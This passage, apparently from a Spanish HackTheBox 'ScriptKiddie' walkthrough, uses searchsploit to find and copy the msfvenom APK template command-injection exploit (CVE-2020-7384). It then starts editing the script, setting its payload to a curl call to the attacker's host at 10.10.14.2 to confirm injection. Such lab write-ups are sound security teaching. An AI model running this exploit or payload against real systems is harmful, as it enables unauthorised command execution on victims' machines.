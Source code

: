 ```bash
❯ searchsploit msfvenom
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                                                                                               | multiple/local/49491.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

{% hint style="danger" %}
La trama msfvenom en Metasploit de Rapid7 maneja archivos APK de una manera que permite a un usuario malicioso crear y publicar un archivo que ejecutaría comandos arbitrarios en la máquina de la víctima
{% endhint %}

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2020-7384" %}

Nos copiaremos a nuestro directorio actual de trabajo el exploit que nos muestra disponible la herramienta de `searchsploit`.

```bash
❯ searchsploit -m multiple/local/49491.py
  Exploit: Metasploit Framework 6.0.11 - msfvenom APK template command injection
      URL: https://www.exploit-db.com/exploits/49491
     Path: /usr/share/exploitdb/exploits/multiple/local/49491.py
    Codes: CVE-2020-7384
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/Desktop/HackTheBox/Linux/ScriptKiddie/ScriptKiddie/49491.py


❯ mv 49491.py CVE-2020-7384.py
```

Modificaremos el script de Python para realizar el `Command Injection`. En este caso, para verificar que la aplicación web es vulnerable, lo que inyectaremos es un comando para que realice una petición `cURL` a un recurso que no existe para comprobar en nuestro servidor web que se ha realizado dicha petición. En caso de que nos llegase un `GET`, confirmaríamos que existe el `Command Injection`.

{% code title="CVE-2020-7384.py" %}
```python
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl http://10.10.14.2/gzzcoo'
```